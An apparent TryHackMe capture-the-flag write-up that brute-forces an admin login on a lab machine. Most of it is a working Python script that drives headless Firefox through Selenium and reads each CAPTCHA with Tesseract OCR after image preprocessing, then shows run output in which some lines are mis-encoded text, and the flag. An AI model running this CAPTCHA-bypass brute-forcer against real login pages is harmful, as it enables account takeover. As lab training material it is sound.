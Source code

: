 Description
The web application has a login form with three fields: username, password, and CAPTCHA. To prevent automated brute-forcing, a CAPTCHA changes every time the page is loaded.
This project solves the CAPTCHA bypass by automating Firefox browser via Selenium and using OCR (Tesseract library) to recognize the CAPTCHA text. The script loads the page, extracts the CAPTCHA image, processes it to improve OCR accuracy, inputs the credentials, and attempts to login automatically.

My IP Addresses
Attacker machine IP (my IP): 10.10.82.126

Target machine IP: 10.10.104.119

What I Did
Analyzed the web application, found a login form with CAPTCHA on port 80 of the target machine.

Enumerated the web directories using gobuster, confirmed PHP backend.

Prepared a wordlist with the first 100 passwords from rockyou.txt.

Developed a Python script using Selenium and Firefox to automate login and bypass CAPTCHA.

Used Tesseract OCR for CAPTCHA text recognition.

Applied image processing to the CAPTCHA to enhance recognition accuracy.

Ran the script — successfully brute-forced the password and retrieved the flag.

Code Snippet (Key Parts)

from selenium.webdriver.common.by import By
from selenium import webdriver
from selenium.webdriver.firefox.options import Options
from selenium.webdriver.firefox.service import Service
import time
from PIL import Image, ImageEnhance, ImageFilter
import io
import pytesseract

options = Options()
options.add_argument('--headless')  # Run in headless mode
options.set_preference("general.useragent.override", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0")

service = Service(executable_path='/usr/bin/geckodriver')
browser = webdriver.Firefox(service=service, options=options)

ip = 'http://10.10.104.119/'
login_url = f'{ip}index.php'
dashboard_url = 'dashboard.php'
username = "admin"

with open("wordlist.txt", 'r', encoding='utf-8') as file:
    passwords = [line.strip() for line in file]

for password in passwords:
    print(f"[*] Trying password: {password}")
    while True:
        browser.get(login_url)
        time.sleep(1)

        captcha_img = browser.find_element(By.TAG_NAME, "img")
        captcha_png = captcha_img.screenshot_as_png

        image = Image.open(io.BytesIO(captcha_png)).convert("L")
        image = image.resize((image.width * 2, image.height * 2), Image.LANCZOS)
        image = image.filter(ImageFilter.SHARPEN)
        image = ImageEnhance.Contrast(image).enhance(2.0)
        image = image.point(lambda x: 0 if x < 140 else 255, '1')

        captcha_text = pytesseract.image_to_string(
            image,
            config='--psm 7 -c tessedit_char_whitelist=ABCDEFGHIJKLMNOPQRSTUVWXYZ23456789'
        ).strip().replace(" ", "").replace("\n", "").upper()

        if not captcha_text.isalnum() or len(captcha_text) != 5:
            print(f"[!] OCR failed: '{captcha_text}', retrying...")
            continue

        browser.find_element(By.ID, "username").send_keys(username)
        browser.find_element(By.ID, "password").send_keys(password)
        browser.find_element(By.ID, "captcha_input").send_keys(captcha_text)
        browser.find_element(By.ID, "login-btn").click()

        time.sleep(1)

        if dashboard_url in browser.current_url:
            print(f"[+] Login successful with password: {password}")
            try:
                flag = browser.find_element(By.TAG_NAME, "p").text
                print(f"[+] Flag: {flag}")
            except:
                print("[!] Flag not found.")
            browser.quit()
            exit()
        else:
            if "error" in browser.current_url:
                print(f"[-] Incorrect password: {password}")
                break
            else:
                print("[-] CAPTCHA failed, retrying...")
                continue

browser.quit()

[-] 0@>;L =525@5=: hottie
[*] @>1C5< ?0@>;L: tinkerbell
[+] #!%! 0@>;L: tinkerbell
[+] $;03: Here is your flag: THM{8938aed9fbf43bddb7c0a98f292dca}
root@ip-10-10-82-126:~# 
Summary
Automated successful password brute-force with CAPTCHA bypass.

Retrieved the flag from the target machine.

Used Firefox and Selenium to control the browser and bypass protection.

Used Tesseract OCR with image preprocessing for CAPTCHA recognition.
